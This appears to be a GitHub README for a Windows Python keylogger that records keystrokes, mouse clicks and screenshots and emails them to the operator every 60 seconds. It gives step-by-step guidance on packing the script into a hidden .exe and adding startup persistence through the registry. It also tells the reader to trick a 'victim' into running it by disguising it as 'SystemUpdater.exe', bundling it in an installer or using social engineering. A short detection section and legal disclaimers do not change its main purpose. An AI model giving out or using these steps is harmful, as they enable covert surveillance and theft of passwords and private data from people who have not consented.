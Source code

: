 ## **🔥 How to Use**
1️⃣ **Install Required Modules**
Run the following in **Terminal** or **Command Prompt**:
```sh
pip install pynput pyautogui --break-system-packages
```

2️⃣ **Enable "Less Secure Apps" or Use an App Password**  
Google no longer allows scripts to log in with a normal password.  
➡ **Solution:** Use an [App Password](https://myaccount.google.com/apppasswords) instead of your real password.

3️⃣ **Run the Script**
```sh
python keylogger.py
```
✅ It will start recording keystrokes and mouse clicks.  
✅ Every 60 seconds (or when enough data is collected), it **emails the logs and screenshots**.

---

### **🔍 Is This Keylogger for Windows or Android?**
✅ This keylogger is **designed for Windows**.  
🚫 It **will not work on Android** unless modified.

For Windows, it:
- Uses **Windows registry** for startup persistence.
- Uses **`winreg`** to modify registry keys.
- Uses **`win32console`** and **`win32gui`** to hide the console.

---

### **💻 How to Install & Run on Windows (Victim’s System)**
To make this work **remotely** (i.e., send logs from the victim’s PC to your email), follow these steps.

#### **Step 1️⃣ – Convert the Script into an Executable (.exe)**
Since most victims **won't run Python scripts**, you should convert it to an **.exe file**.

1. Install `pyinstaller`:
   ```sh
   pip install pyinstaller --break-system-packages
   ```
2. Convert the script:
   ```sh
   pyinstaller --onefile --noconsole keylogger.py
   ```
   - `--onefile` → Creates a single `.exe` file.  
   - `--noconsole` → Hides the terminal window.

✅ After this, an **EXE file** will be in the `dist/` folder.

---

#### **Step 2️⃣ – Set Up Gmail for Sending Logs**
Since Gmail blocks suspicious login attempts, you must **use an App Password** instead of your real password.

1. **Go to:** [Google App Passwords](https://myaccount.google.com/apppasswords)
2. **Select "Mail" & "Windows Computer"** as the app.
3. **Copy the generated password** and replace this line in the script:
   ```python
   YOUR_GMAIL_PASS = "your_app_password"
   ```

---

#### **Step 3️⃣ – Deliver the Keylogger to the Target**
Now, you need to **make the victim run the EXE file**.  
Some common tricks:
- Rename the EXE to something **innocent** (e.g., `SystemUpdater.exe`).
- Bundle it inside another installer.
- Use **social engineering** to make them open it.

🚨 **WARNING:** Using this on **someone else’s PC without consent is illegal**! **Use it only for educational testing in a lab setup.**

---

### **🔥 How to Ensure It Runs on Startup (Persistence)**
The script **already adds itself to the startup** using:
```python
winreg.SetValueEx(key, "SystemUpdate", 0, winreg.REG_SZ, file_path)
```
So, once the victim runs it **once**, it will **auto-run** every time they restart their computer.

---

### **📡 How to Remotely Receive Data**
Once installed, it will:
1. **Log keystrokes**.
2. **Take screenshots**.
3. **Send logs & images to your email every 60 seconds**.

✅ To **change the interval**, edit:
```python
INTERVAL = 60  # Time in seconds
```

---

## **🛡️ How to Detect & Remove This Keylogger**
If you suspect someone **installed a keylogger** on your Windows system:
1. **Check Startup Programs**  
   - Open `regedit` → Go to:  
     ```
     HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
     ```
   - Look for unknown entries and **delete them**.

2. **Check Running Processes**  
   - Open Task Manager (`Ctrl + Shift + Esc`).
   - Look for strange **Python** or **EXE** processes.

3. **Delete Suspicious Files**  
   - Search for `.exe` or `.py` files in:
     ```
     C:\Users\YourUsername\AppData\Roaming
     ```

# ⚠️Disclaimer !
This tool is intended for ethical and educational use only.  
Do not use it for illegal activities. The author is not responsible for any misuse.  
This script is intended for educational purposes and authorized testing only.  
Unauthorized use of this script is illegal and unethical.  
Ensure you have explicit permission before testing any system.  
- Obtain explicit permission before testing any system.  
- Adhere to all applicable laws and regulations.  
- Respect user privacy and data.  
- By using this script, you agree to take full responsibility for your actions.   

